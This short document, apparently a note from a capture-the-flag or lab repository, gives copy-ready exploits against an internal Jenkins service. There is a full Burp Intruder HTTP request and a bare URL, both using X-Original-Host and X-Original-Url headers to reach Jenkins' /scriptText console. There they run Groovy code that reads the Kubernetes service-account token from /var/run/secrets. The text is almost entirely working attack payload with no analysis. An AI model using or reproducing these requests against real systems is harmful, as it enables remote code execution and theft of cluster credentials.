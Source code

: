 # Example jenkinssvc exploits

exmample full request to send inside of intruder for Burp.

```text
POST / HTTP/1.1
Host: api.arrrspace.wtf
Content-Length: 0
X-Original-Host: http://jenkinssvc:8080
X-Original-Url: /scriptText?script=def+command%3d"cat+/var/run/secrets/kubernetes.io/serviceaccount/token"%3bdef+proc%3dcommand.execute()%3bproc.waitFor()%3bprintln("${proc.in.text}")%3b%2f%2f
Content-Type: application/x-www-url-formencoded
Accept: */*
Connection: close
```

example url to copy, if you only want that.

```text
/scriptText?script=def+command%3d"cat+/var/run/secrets/kubernetes.io/serviceaccount/token"%3bdef+proc%3dcommand.execute()%3bproc.waitFor()%3bprintln("${proc.in.text}")%3b%2f%2f
```
